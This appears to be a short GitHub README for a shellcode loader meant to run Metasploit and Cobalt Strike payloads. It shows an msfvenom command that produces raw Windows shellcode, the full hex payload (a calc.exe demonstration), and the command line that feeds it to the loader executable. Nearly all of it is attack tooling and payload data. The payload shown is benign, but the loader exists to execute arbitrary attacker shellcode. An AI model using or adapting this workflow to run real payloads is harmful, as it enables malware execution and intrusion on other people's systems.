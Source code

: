 # ShellCode-Loader
## ShellCode Loader for MSF and Cobalt Strike 

#####
```msfvenom -p windows/exec CMD=calc.exe -f raw | xxd -ps```

shellcode：
bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c

```shellcode_Argv.exe bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c```

![calc](https://github.com/LDrakura/ShellCode-Loader/blob/master/calc.png)
